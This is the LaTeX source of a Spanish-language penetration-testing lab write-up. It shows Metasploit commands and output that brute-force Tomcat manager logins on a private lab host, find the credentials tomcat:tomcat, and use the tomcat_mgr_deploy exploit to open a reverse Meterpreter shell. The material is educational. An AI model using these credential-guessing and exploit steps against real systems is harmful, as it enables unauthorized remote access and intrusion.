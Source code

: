 \documentclass[a4paper,12pt]{scrartcl}
\begin{document}
\begin{lstlisting}[breaklines]
$ use auxiliary/scanner/http/tomcat_mgr_login
$ set RHOSTS 192.168.59.100
$ set RPORT 8180
$ run
[-] 192.168.59.100:8180 TOMCAT_MGR - LOGIN FAILED: admin:admin (Incorrect: )
[-] 192.168.59.100:8180 TOMCAT_MGR - LOGIN FAILED: admin:manager (Incorrect: )
[...]
[-] 192.168.59.100:8180 TOMCAT_MGR - LOGIN FAILED: tomcat:root (Incorrect: )
[+] 192.168.59.100:8180 - LOGIN SUCCESSFUL: tomcat:tomcat
[-] 192.168.59.100:8180 TOMCAT_MGR - LOGIN FAILED: both:admin (Incorrect: )
[...]
[-] 192.168.59.100:8180 TOMCAT_MGR - LOGIN FAILED: QCC:QLogic66 (Incorrect: )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}

\vspace{12pt}

Las salidas son muy largas, así que van resumidas. Se puede ver que con el segundo escáner hemos conseguido acceder usando el usuario \textbf{tomcat:tomcat}, que vamos a usar para poder obtener ejecución de código arbitrario posteriormente.

En la búsqueda de Tomcat, en el apartado de exploits podemos ver exploit/multi/http/tomcat\_mgr\_deploy, que tiene un nombre similar al escáner que nos dio un usuario positivo. Si usamos el exploit:

\begin{lstlisting}[breaklines]
$ use exploit/multi/http/tomcat_mgr_deploy
$ set RHOST 192.168.59.100
$ set USERNAME tomcat
$ set PASSWORD tomcat
$ set RPORT 8180
$ run

[*] Started reverse TCP handler on 192.168.59.1:4444 
[*] Attempting to automatically select a target...
[*] Automatically selected target "Linux x86"
[*] Uploading 6071 bytes as wrwe.war ...
[*] Executing /wrwe/QisKxDzvyVOapxx4PwnS4GOLQ.jsp...
[*] Undeploying wrwe ...
[*] Sending stage (46112 bytes) to 192.168.59.100
[*] Meterpreter session 1 opened (192.168.59.1:4444 -> 192.168.59.100:39310) at 2016-05-22 15:59:27 +0200

meterpreter > getuid
Server username: tomcat55
\end{lstlisting}

\noindent Tenemos acceso a un meterpreter\footnote{Meterpreter es una terminal que ofrece acceso remoto a la máquina víctima.} como el usuario tomcat55. A partir de aquí un atacante utilizaría alguna forma de escalar privilegios, para poder acceder como otro usuario (el objetivo final sería acceder como root).
\end{document}
